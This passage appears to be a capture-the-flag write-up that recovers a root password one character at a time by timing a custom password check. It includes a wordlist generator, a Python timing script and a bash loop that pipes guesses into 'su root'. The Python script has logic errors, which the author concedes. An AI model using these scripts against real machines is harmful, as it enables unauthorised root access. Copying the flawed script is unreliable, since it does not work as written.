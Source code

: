 ### writing script to brute force password 

We can brute force one character at a time, let's first create a list of all possible characters. I used one from **verify_passwd_hash** function in ghidra 
```
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789./
``` 
with a quick python script i can break them in a line separated wordlist .
```
words="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789./"

for i in words:
    with open('wl.txt','a+') as f:
        f.write(i+"\n")

print("done")
```
Then i tried to write a python script to detect the time delay which worked with a bash script and calculated which character caused the time delay and and put that in password and then brute force next character.

```
import subprocess
password=""
words="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789./"
for j in range(0,10):
    for i in range(0,len(words)):
        pas=password+words[i]
        npas=password+words[i+1]
        print(pas)
        prev=subprocess.run(["bash","br.sh",pas],capture_output=True)
        nest=subprocess.run(["bash","br.sh",npas],capture_output=True)

        prev=float(prev.stderr.decode().strip())
        nest=float(nest.stderr.decode().strip())

        if (abs(nest-prev) >= 0.1) and (nest>prev):
            password+=words[i+1]
            print(password)
            break
        elif (abs(nest-prev) >= 0.1) and (prev<nest):
            password+=words[i]
            break
```

But this script fails in multiple cases as time delay is sometime not 0.1 seconds. And sometime prev character is password and different things which i tried to handlw but failed. It was also slow and basically sucked. Gonna try to understand how 0xdf did it.

I finally used a bash script to bruteforce the character one by one and on detection i manually terminated the script and appended that chaaracter to password and bruteforce next character.

**brute.sh**
```
#!/bin/bash

TIMEFORMAT=%E
for i in $(cat wl.txt); do
	pass=$1$i
	printf "%-11s" $pass
    	time printf "%-10s" $pass | su root 2>/dev/null
done
```
